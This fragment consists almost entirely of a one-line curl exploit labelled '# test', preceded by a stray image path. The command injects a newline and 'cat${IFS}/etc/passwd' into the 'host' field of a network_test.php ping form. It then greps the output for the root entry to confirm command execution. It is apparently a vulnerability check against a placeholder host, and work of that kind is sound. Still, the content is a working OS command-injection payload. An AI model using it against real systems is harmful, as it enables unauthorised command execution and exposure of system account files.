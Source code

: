 # test
curl -i -s -k -X 'POST' -H 'Content-Type: application/x-www-form-urlencoded' --data-binary $'host=%0acat${IFS}/etc/passwd%0a&command=ping' 'http://example/network_test.php' | grep 'root:.*:0:0'
